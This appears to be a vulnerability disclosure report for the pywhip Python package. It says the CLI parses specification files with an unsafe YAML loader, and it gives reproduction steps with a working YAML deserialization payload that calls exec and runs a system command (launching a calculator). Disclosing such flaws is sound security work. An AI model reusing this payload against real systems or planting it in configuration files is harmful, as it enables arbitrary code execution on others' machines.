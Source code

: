 # :dizzy: Description:
- Pywhip is a python package to validate data against whip specifications. that allows users to use it from a CLI script too. due to insecure way parsing specifications file with regular YAML loader that isn't safe by default. attacker can trigger Arbitrary code execution by including malicious YAML file

# :ok_hand: Steps To Reproduce:
- Install pywhip from source. go to `pywhip` directory
- Create a `config.yml` file with this content

```yaml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
```
- Create a simple CSV file that does contain any content
- Run `cli.py` with these options: `python3 cli.py test.csv config.yml`
- See the code execution happening.

# :boom: Proof Of Concept:
- Here's a Screen Shot For The Code Execution On Pywhip:

![POC](https://i.imgur.com/ZEHm35c.png)
